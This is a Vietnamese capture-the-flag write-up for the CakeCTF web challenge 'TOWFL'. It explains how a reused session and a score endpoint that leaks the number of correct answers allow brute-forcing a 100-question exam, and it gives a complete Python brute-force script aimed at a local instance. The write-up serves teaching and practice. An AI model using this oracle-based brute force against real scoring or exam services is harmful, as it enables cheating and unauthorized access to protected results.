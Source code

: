 # [CakeCTF] TOWFL
<p>Sau khi submit, thì có 2 request gửi đi. Body của request thứ nhất là mảng 2 chiều có các giá trị null, 0, 1, 2, 3 -> Có vẻ như không chọn đáp án thì giá trị sẽ là null, chọn A thì giá trị sẽ là 0, B sẽ là giá trị 1, C sẽ là giá trị 2 và D sẽ là giá trị 3.</p>

![alt text](/thanhlai/post/web_exploitation/image/post12/image-1.png)

<p>Trong response sau khi gửi request thứ hai, có trả về số lượng câu đúng (data.score).</p>

![alt text](/thanhlai/post/web_exploitation/image/post12/image-2.png)

<p>Route /api/score: kiểm tra nếu score bằng 100 thì trả về nội dung flag. Có vẻ như cần phải brute force từng đáp án cho đến khi đủ 100 điểm.</p>

![alt text](/thanhlai/post/web_exploitation/image/post12/image.png)

<p>Route /api/start: tạo session id mới khi start exam. Sau đó, gọi hàm new_challenge để đảo các đáp án -> Vì vậy, khi brute force không nên start lại exam để thử các đáp án. Sau khi submit thì session nó không bị xóa đi nên có thể tận dụng lại session đó để brute force.</p>

![alt text](/thanhlai/post/web_exploitation/image/post12/image-5.png)

<p>Đầu tiên, start exam và lấy giá trị của cookie session.</p>

![alt text](/thanhlai/post/web_exploitation/image/post12/image-3.png)

<p>Thay giá trị của session vào vị trí &lt;your_session_cookie_here> và chạy script.</p>

```
import requests
import time
import copy
import json

BASE_URL = "http://localhost:8888"
SESSION = requests.Session()
SESSION.cookies.set("session", "<your_session_cookie_here>")  

def log(tag, data):
    print(f"[{tag}] {json.dumps(data, ensure_ascii=False)}")

def start_exam():
    return SESSION.post(f"{BASE_URL}/api/start").json()

def submit(answers):
    resp = SESSION.post(f"{BASE_URL}/api/submit", json=answers).json()
    return resp

def get_score():
    resp = SESSION.get(f"{BASE_URL}/api/score").json()
    return resp

def brute_force():
    answers = [[None]*10 for _ in range(10)]
    current_score = 0

    for i in range(10):
        for j in range(10):
            for choice in range(4):
                trial = copy.deepcopy(answers)
                trial[i][j] = choice

                submit(trial)
                result = get_score()
                new_score = result['data']['score']
                print(f"Trying ans[{i}][{j}] = {choice} → score: {new_score}")

                if new_score == 100:
                    print("[FOUND] Flag:", result['data']['flag'])
                    exit(0)

                if new_score > current_score:
                    answers[i][j] = choice
                    current_score = new_score
                    print(f"[+] Correct: ({i},{j}) = {choice}")
                    break
                time.sleep(0.05)
    return answers

def main():
    start_exam()
    correct_answers = brute_force()
    submit(correct_answers)

if __name__ == "__main__":
    main()

```

<p>Tìm thấy nội dung flag trong kết quả sau khi chạy.</p>

![alt text](/thanhlai/post/web_exploitation/image/post12/image-4.png)

<p>Tóm lại, đây là toàn bộ nội dung về challenge. Hy vọng writeup này giúp ích cho bạn 🔥.</p>